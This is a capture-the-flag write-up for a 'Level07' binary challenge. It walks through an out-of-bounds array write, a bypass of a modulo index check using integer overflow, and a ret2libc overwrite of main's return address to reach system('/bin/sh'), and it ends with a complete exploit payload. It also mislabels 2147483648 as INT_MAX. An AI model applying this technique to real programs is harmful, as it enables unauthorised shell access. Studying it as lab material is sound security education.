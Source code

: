 # Level07 – Exploiting Out-of-Bounds Write


## What Does the Binary Do?
After reversing the binary, we observe:

It uses an array: data[100] to store and read values.

Certain indices are protected from writes if:

    (index % 3 == 0) || ((number >> 24) == 0xb7)
    (Likely to protect memory used by "wil", possibly the admin.)

#### There's no bounds check on the index, so we can access memory after the array!

## Understanding the Vulnerability
By starting at data[101], we test out-of-bounds memory access.

At data[114], we find:


    4158936339 → 0xf7e45513 (in hex)
Using GDB:

    x/i 0xf7e45513
Result:


    __libc_start_main+243
    This is the return address of main – i.e., what the program jumps to after it ends.

### Problem:
We can’t directly write to data[114], because:


    114 % 3 == 0 → write blocked
## Bypassing the Protection
We can bypass the modulo check by tricking the index:

    2147483648 (INT_MAX) + 114 = 2147483762
    2147483762 % 3 = 2 → ✅ not blocked
    So we can overwrite data[114] by writing to data[2147483762].

## The Exploit Strategy
Same idea as Level04:

Overwrite the return address with the address of system()

Place the address of "/bin/sh" nearby as an argument

When the program exits, it executes:

    system("/bin/sh")
## Finding the Required Addresses
1. Get system() address:
In GDB:

        p system

2. Get libc memory range:

        info proc map
3. Find "/bin/sh" string:

        find <libc_start>, <libc_end>, "/bin/sh"

## Final Payload Details
    system() = 0xf7e6aed0 = 4159090384

    "/bin/sh" = 0xf7f897ec = 4160264172

    We write:
    data[114] = system() (via index 2147483762)

    data[115] = padding (any value)

    data[116] = "/bin/sh"

## Final Exploit Payload

    (python -c 'print "store"';
    python -c 'print "4159090384"';        # system() address
    python -c 'print "2147483762"';        # bypassed index for data[114]
    python -c 'print "store"';
    python -c 'print "4160264172"';        # "/bin/sh" string address
    python -c 'print "116"';               # store at data[116]
    python -c 'print "quit"';
    cat) | ./level07